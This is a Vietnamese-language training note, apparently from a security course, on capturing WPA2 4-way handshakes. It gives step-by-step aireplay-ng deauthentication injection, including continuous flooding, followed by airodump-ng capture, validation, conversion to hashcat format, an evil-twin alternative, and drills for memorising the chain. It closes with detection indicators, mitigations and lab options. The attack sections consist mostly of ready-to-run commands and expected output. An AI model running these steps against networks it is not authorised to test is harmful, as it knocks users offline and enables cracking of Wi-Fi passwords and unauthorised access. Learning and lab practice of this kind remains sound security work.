

> **Prerequisites**: [[01-wpa2-cryptographic-foundations|01. WPA2-Personal Cryptographic Foundations]] · [[02-80211-frame-monitor-mode|02. 802.11 Frame & Monitor Mode]]
> **Objectives**:
> - Capture 4-way EAPOL handshake bằng phương pháp passive và active
> - Inject deauthentication frames với aireplay-ng để force reconnect
> - Validate handshake integrity trước khi crack
> - Hiểu OPSEC considerations của deauth attack

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Interface ở monitor mode (`wlan0mon`)
> - Có ít nhất một client đang kết nối vào AP target (hoặc có thể đợi client tự kết nối)
> - Đủ signal strength với cả AP và client (lý tưởng PWR > -70 dBm)
> - Không cần biết PSK — chỉ cần capture EAPOL frames
>
> [!tip] Passive vs Active
> **Passive**: Đợi client tự reconnect — stealthy nhưng có thể mất nhiều phút/giờ
> **Active (Deauth)**: Inject deauth frames → force immediate reconnect — nhanh nhưng gây interference, dễ detect
>
---

## Cơ chế tấn công

### Tại sao deauth hoạt động?

802.11 Management frames (bao gồm Deauthentication frames) **không được authenticate** trong WPA2 chuẩn (không có 802.11w Protected Management Frames). Attacker có thể spoof deauth frame từ BSSID của AP gửi đến client, hoặc ngược lại.

Frame deauthentication:
```text
Frame Control: Type=Management (00), Subtype=Deauth (1100)
Addr1: Client MAC (destination)
Addr2: AP BSSID (spoofed source)
Addr3: AP BSSID
Reason Code: 0x0007 (Class 3 frame received from nonassociated STA)
```bash

Khi client nhận deauth frame (dù là giả), nó:
1. Huỷ kết nối với AP
2. Lập tức thử reconnect → thực hiện 4-way handshake mới
3. Attacker capture EAPOL exchange trong lúc reconnect

### Handshake Validation

Một capture hợp lệ cần **ít nhất Msg1 + Msg2** (hoặc Msg2 + Msg3):
- Msg1 chứa ANonce
- Msg2 chứa SNonce + MIC

Msg1 + Msg2 đủ để crack vì attacker có ANonce, SNonce, cả hai MACs, và MIC để verify.

> [!warning] Incomplete handshake
> Nếu chỉ capture được 1 message (ví dụ chỉ Msg1 hoặc chỉ Msg4) → không crack được. airodump-ng hiển thị "WPA handshake" chỉ khi có đủ Msg1+Msg2 hoặc tương đương.
>
---

## Quy trình tấn công

**Môi trường giả định**: AP BSSID `AA:BB:CC:DD:EE:FF`, Channel 6, ESSID `"HomeNet"`, Client `11:22:33:44:55:66`.

**Bước 1 — Setup monitor mode và scan**

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```bash

> **Expected output**: Danh sách APs với BSSID, Channel, ESSID. Note BSSID và Channel của target.

**Bước 2 — Lock vào target AP và bắt đầu capture**

```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake_capture wlan0mon
```

> **Expected output**: Chỉ thấy AP target và các clients của nó. Terminal này giữ chạy suốt quá trình.

**Bước 3 — Deauth injection (terminal mới)**

```bash
# Deauth tất cả clients của AP (broadcast)
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Deauth client cụ thể (targeted — ít noise hơn)
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
```bash

Flags:
- `-0 5`: Gửi 5 deauth frames (tăng nếu không hiệu quả)
- `-a`: BSSID của AP
- `-c`: MAC của client cụ thể (bỏ qua để target tất cả)

> **Expected output**:
> ```text
> 13:45:22  Sending 5 directed DeAuth (code 7). STMAC: [11:22:33:44:55:66] [10|10 ACKs]
> ```

**Bước 4 — Verify handshake captured**

Nhìn vào terminal airodump-ng:

> **Expected output**:
> ```text
> CH  6 ][ Elapsed: 12 s ][ 2026-04-01 13:45 ][ WPA handshake: AA:BB:CC:DD:EE:FF
> ```

Dòng `WPA handshake: <BSSID>` xác nhận capture thành công.

**Bước 5 — Validate handshake với aircrack-ng**

```bash
# Verify handshake integrity (không crack — chỉ validate)
aircrack-ng handshake_capture-01.cap -w /dev/null

# Hoặc dùng hcxpcapngtool để check và convert
hcxpcapngtool handshake_capture-01.cap -o /tmp/test.hc22000
wc -l /tmp/test.hc22000  # > 0 nghĩa là có data để crack
```bash

> **Expected output**: `1 handshake` hoặc số lượng handshakes tìm thấy.

**Bước 6 — Convert sang hashcat format**

```bash
# Cách 1: hcxpcapngtool (khuyến nghị — unified format)
hcxpcapngtool handshake_capture-01.cap -o hashes.hc22000

# Cách 2: cap2hccapx (legacy)
cap2hccapx handshake_capture-01.cap hashes.hccapx

# Verify output
head -1 hashes.hc22000
# WPA*02*<mic>*<ap_mac>*<sta_mac>*<ssid>*<nonce>*...
```bash

---

## Biến thể & Bypass

### Passive Capture (không deauth)

```bash
# Chạy airodump-ng và chờ
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
# Đợi client tự reconnect (khởi động lại máy, ra ngoài vùng phủ sóng, v.v.)
```

Phù hợp khi: môi trường nhạy cảm, không muốn gây interference.

### Deauth liên tục (flooding)

```bash
# Deauth loop — giữ client disconnected để capture sạch
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
# CẢNH BÁO: 0 = gửi vô hạn — rất noisy, Ctrl+C để dừng
```bash

### Bypass 802.11w (Protected Management Frames)

Nếu AP enforce PMF, deauth frames bị ignore:

```bash
# Kiểm tra PMF status
sudo airodump-ng wlan0mon | grep -i pmf

# Alternative: Evil Twin AP để capture handshake khi client connect
# (không dùng deauth — dùng rogue AP cùng SSID)
sudo hostapd-wpe hostapd.conf
```bash

### Capture từ xa với airodump-ng multi-channel

```bash
# Capture nhiều channels cùng lúc (channel hop)
sudo airodump-ng --band abg wlan0mon -w capture_all
# Kém hiệu quả hơn single channel lock
```bash

---

## Cây quyết định



---

## Command Cheatsheet

**Monitor mode setup**

```bash
# Kill rogue processes
sudo airmon-ng check kill

# Enable monitor mode
sudo airmon-ng start wlan0

# Verify
iwconfig wlan0mon | grep Mode
```bash

**Scan và lock target**

```bash
# Scan all
sudo airodump-ng wlan0mon

# Lock target AP
sudo airodump-ng -c <CH> --bssid <BSSID> -w capture wlan0mon
# <CH>:    channel (1–14 cho 2.4GHz, 36/40/... cho 5GHz)
# <BSSID>: AP MAC address
```bash

**Deauth injection**

```bash
# Targeted deauth (5 frames)
sudo aireplay-ng -0 5 -a <BSSID> -c <CLIENT_MAC> wlan0mon

# Broadcast deauth (tất cả clients)
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon

# Continuous (CẢNH BÁO: rất noisy)
sudo aireplay-ng -0 0 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```bash

**Validate và convert**

```bash
# Validate handshake
aircrack-ng capture-01.cap -w /dev/null

# Convert to hashcat format
hcxpcapngtool capture-01.cap -o hashes.hc22000

# Verify conversion
wc -l hashes.hc22000  # should be > 0
head -1 hashes.hc22000  # WPA*02*... hoặc WPA*01*...
```

**Quick test crack**

```bash
# Test với 1 password để verify hash đúng
hashcat -m 22000 hashes.hc22000 -a 3 "password123"
```bash

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — Monitor mode pipeline**
Mục tiêu: toàn bộ setup không nhìn cheatsheet.

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
iwconfig wlan0mon   # verify
```bash

Luyện cho đến khi: 3 lệnh này gõ trong dưới 10 giây không cần suy nghĩ.

**Drill 2 — airodump-ng lock**
Mục tiêu: đọc output airodump, extract BSSID/Channel, lock ngay.

```bash
sudo airodump-ng wlan0mon
# Đọc output, note BSSID và CH của target
sudo airodump-ng -c <CH> --bssid <BSSID> -w capture wlan0mon
```bash

Luyện cho đến khi: không cần pause để đọc help page.

**Drill 3 — Full capture chain**
Mục tiêu: capture handshake trong dưới 2 phút trên lab environment.

```bash
# Terminal 1: airodump-ng lock
sudo airodump-ng -c 6 --bssid <BSSID> -w capture wlan0mon

# Terminal 2: deauth
sudo aireplay-ng -0 5 -a <BSSID> -c <CLIENT> wlan0mon

# Terminal 1: verify "WPA handshake" message

# Terminal 2: convert
hcxpcapngtool capture-01.cap -o hashes.hc22000
```

Luyện cho đến khi: hoàn thành toàn bộ pipeline không cần nhìn notes.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **IDS/WIDS**: Nhiều Deauthentication frames trong thời gian ngắn từ một MAC → deauth flood alert
> - Threshold điển hình: >10 deauth frames/giây từ cùng một source
> - Kismet, Snort wireless rules, enterprise WIPS (Cisco Adaptive wIPS, Aruba RFProtect)
>
> **Client-side**: User thấy WiFi disconnect/reconnect đột ngột
>
> **Log**: Nhiều authentication events trong AP syslog trong thời gian ngắn
>
> [!note] Mitigation
> - **Enable 802.11w (PMF)**: Protect Management Frames — deauth frames được authenticate
> - WPA3 bắt buộc PMF, giải quyết hoàn toàn deauth injection
> - WIPS (Wireless Intrusion Prevention System) detect và block deauth floods
> - Segment wireless network — isolate sensitive resources
>
---

## Lab Thực hành

| Platform | Machine/Module | Technique |
|----------|---------------|---------|
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | Handshake capture với deauth |
| HTB Academy | **Wi-Fi Password Cracking Techniques** | Convert + crack handshake |
| Local VM | Kali + mac80211_hwsim + hostapd | Full lab setup không cần hardware |
| Local VM | 2 VMs + WiFi USB adapter | Real hardware practice |

Setup local lab:
```bash
# Tạo virtual WiFi interfaces
sudo modprobe mac80211_hwsim radios=3
# Radio 0: AP, Radio 1: Client, Radio 2: Attacker

# Start AP
sudo hostapd /etc/hostapd/hostapd.conf
```bash

---

## Field Manual Entry

> [!abstract] 4-Way Handshake Capture — Quick Reference
> **Điều kiện**: Client kết nối vào AP, monitor mode ready
> **Lệnh nhanh**: `aireplay-ng -0 5 -a <BSSID> -c <CLIENT> wlan0mon`
> **Full flow**: `airmon-ng check kill` → `airmon-ng start wlan0` → `airodump-ng -c CH --bssid BSSID -w cap wlan0mon` → `aireplay-ng -0 5 ...` → verify "WPA handshake" → `hcxpcapngtool cap-01.cap -o hash.hc22000`
> **Look for**: `WPA handshake: <BSSID>` ở góc phải trên airodump-ng
> **Detection**: Deauth flood → WIDS alert; 802.11w PMF blocks attack
> **Ref**: [[03-4way-handshake-capture|03. 4-Way Handshake Capture]]
>